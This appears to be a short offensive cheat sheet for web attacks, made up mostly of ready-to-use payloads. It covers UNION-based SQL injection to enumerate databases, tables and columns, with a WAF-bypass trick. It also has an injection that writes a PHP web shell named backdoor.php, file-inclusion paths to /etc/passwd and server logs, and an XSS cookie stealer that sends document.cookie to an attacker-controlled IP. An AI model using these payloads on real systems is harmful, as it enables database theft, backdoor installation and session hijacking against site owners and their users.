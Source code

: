 #  Web Common Vulnerabilities


## SQL Injeciton

1. Test for SQL Injection
- Use apostrophe(')
- Use (' or 1=1)
- User(' or 1='1 )

2. Determine the columns using the following:
- ?id=-1' order by 1-- - until the webserver repond with error
- ?id = 1 order by 1
- Use the (' UNION SELECT ALL DISTINCT NULL,-- - ) add more null or number until gets error
-  If there are WAF, use the folloing ('  UNION /* */ SELECT /* */ DISCTINCT)
-  If there are multiple vulnerable parameter, cut in half the payload. 

3. . . Determine the current database and list all the databases.
```
'+UNION+ALL+SELECT+NULL,NULL,NULL,NULL,NULL,group_concat(schema_name)+from+information_schema.schemata--+-
```

4. Enumerate tables:
```
'+UNION+ALL+SELECT+NULL,NULL,NULL,NULL,NULL,group_concat(table_name)+from+information_schema.tables+where+table_schema+=+'users'--+-
```

5. Enumerate columns:

```'+UNION+ALL+SELECT+NULL,NULL,NULL,NULL,NULL,group_concat(column_name)+from+information_schema.columns+where+table_name+=+'UserDetails'--+-

```

Writing file using sql injection 
`1 union all select 1,2,"<?php echo '<pre>'.shell_exec($_GET['cmd']).'</pre>';?> into OUTFILE 'c:/xampp/htdocs/backdoor.php'`

## FILE INCLUSION

1. For windows, we have to check for the following:
`c:\windows\system32\drivers\etc\hosts`
`c:\xampp\apache\logs\access.log&cmd=ipconfig`
2. For linux:
`/etc/passwd`
`/etc/php.ini`
`/etc/knockd.conf`

## XSS

1. Cookie stealer using XSS
`<script>new Image().src="http://<ip>/cool.jpg?output="+document.cookie;</script>`
